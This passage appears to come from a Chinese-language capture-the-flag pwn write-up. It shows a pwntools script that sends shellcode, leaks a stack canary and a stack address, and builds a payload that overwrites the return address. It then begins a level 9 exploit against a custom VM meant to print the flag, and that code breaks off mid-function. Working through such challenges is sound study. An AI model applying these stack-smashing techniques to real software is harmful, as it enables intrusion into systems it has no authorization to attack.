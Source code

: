 ```python

p.recvuntil("Please input your yancode:")
payload = data_list[0] + shellcode
p.send(payload)

p.recvuntil("[s] ... write\n")
return_print = p.recvline()
canary_value = return_print[1+8: 1+8+8]
stack_value  = return_print[1+8*5: 1+8*6]
print(canary_value)
print(stack_value)
stack_value = u64(stack_value)

payload = b'\xFF'+ b'\xFF' * 0x8 + p64(u64(canary_value)) + b'\xFF'*8  + p64(stack_value - 0xF8 -0x410 + len(data_list[0]))
p.send(payload)
response = p.recvall().decode('utf-8')

if "pwn" in response:
    print(response)
    exit()

```

## level 9

这一关，不再是使用栈溢出覆盖返回地址劫持控制流了。而是直接复写指令，绕过检查，然后在标准输出中打印 `flag`。

```python
from pwn import *
"""
/flag  ---> 2f 66 6c 61 67

arg1        op      arg2
register            value
syscall 

a   0x8
b   0x20
c   0x2
d   0x1
s   0x10
i   0x40
f   0x04

read    0x2
write   0x4
open    0x10
exit    0x8
"""

def format_data_list(a, b, c, read, write, stm, open_, imm, sys):
    formatted_data_list = []
    for item in data_list:
        formatted_item = item.replace(b'\{a}', bytes([a]))
        formatted_item = formatted_item.replace(b'\{b}', bytes([b]))
        formatted_item = formatted_item.replace(b'\{c}', bytes([c]))

        formatted_item = formatted_item.replace(b'\{sys}', bytes([sys]))

        formatted_item = formatted_item.replace(b'\{read}', bytes([read]))
        formatted_item = formatted_item.replace(b'\{write}', bytes([write]))
        formatted_item = formatted_item.replace(b'\{open}', bytes([open_]))
```